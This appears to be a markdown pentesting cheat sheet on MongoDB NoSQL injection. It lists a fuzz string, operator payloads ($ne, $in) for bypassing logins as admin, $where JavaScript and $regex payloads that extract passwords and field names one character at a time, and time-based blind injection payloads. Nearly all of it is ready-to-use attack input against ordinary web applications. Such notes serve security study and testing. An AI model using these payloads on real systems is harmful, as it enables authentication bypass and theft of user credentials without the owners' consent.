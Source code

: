 # NoSQL

## Fuzzing in MongoDB
- MongoDB fuzz string: `%27%22%60%7B%0A%3B%24Foo%7D%0A%24Foo+%5CxYZ`
  - In plaintext:
    ```
    '"`{
    ;$Foo}
    $Foo \xYZ
    ```
  - In JS:
    ```
    "'\"`{\r;$Foo}\n$Foo \\xYZ\u0000"
    "$where":"'\"`{\r;$Foo}\n$Foo \\xYZ\u0000"
    ```
  - If this causes an error you can use backslash to remove a character at a time to see which are processed.
  - The null character `%00` or `\u0000` may cause everything following to be ignored

## Operators in MongoDB
- $where --> where this is true
- $ne --> not equal to
- $in --> in an array
- $regex --> matches this regex
- Submitting:
  - Need to be nested objects: `{"username": {"$ne","invalid"}}` or as a query `username[$ne]=invalid`
  - Query to test for various admin users: `{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}`

## Extracting data
### Finding a users password in MongoDB
- If the $where operator is used, you can may be able to send javascript to get the password: `{"$where":"this.username == 'admin' && this.password[0] == 'a' || 'a'=='b"}`
- You can use the match function to also get information like if there is digits: `{"$where":"this.username == 'admin' && this.password.match(/\d/) || 'a'=='b"}`
- If you have a vaild field this match statement can get a field value: `"$where":"this.<field-name>.match('^.{0}a.*')"`
    - The 0 is the character location and a is the character you are comparing it to
- Regex can also be used: `{"username":"admin","password":{"$regex":"^a*"}}`
  - This sees if the password starts with a
### Identifing field names
- To identify field names use three requests:
  - The first uses the field you want to know if it exists
  - The second to a field you know exists
  - The third to a random field that most likely does not exist
  - Compare the responses
- Another way is to use the match operator in $where: `"$where":"Object.keys(this)[0].match('^.{0}a.*')"`
  - This returns the first character
  - The 0 is the character location and a is the character you are comparing it to
### Injecting operators
- You can add operators to the json or query to see if they are evaluated, for example `"$where": "0"` and `"$where": "1"` could be used because if it is evaluated then one would be true and the other false
### Timing based injection
- Both of this trigger a time delay for 5000 ms if a is the first character:
  ```
  {"$where":"this.username == 'admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'}
  {"$where":"this.username == 'admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'}
  ```
